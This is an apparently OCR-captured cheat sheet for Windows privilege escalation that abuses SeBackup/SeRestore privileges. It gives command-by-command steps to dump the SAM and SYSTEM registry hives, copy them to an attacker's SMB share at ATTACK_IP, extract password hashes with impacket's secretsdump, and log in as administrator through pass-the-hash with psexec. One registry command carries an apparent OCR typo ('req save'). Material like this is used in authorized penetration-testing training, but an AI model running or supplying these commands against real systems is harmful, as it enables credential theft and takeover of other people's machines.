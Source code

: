 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

#### req save hklm\system c:\users\user\system.hive

#### req save hklm\sam c:\users\user\sam.hive

#### 2: Create SMB Server on attacking machine

#### 1: mkdir share

#### 2: python3 impacket-smbserver.py -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

#### copy c:\users\user\sam.hive \\ATTACK_IP\public\

#### copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

#### python3 impacket-secretsdump.py -sam sam.hive -system system.hive LOCAL

#### 5: Pass-The-Hash Attack (PtH)

#### python3 impacket-psexec.py -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.
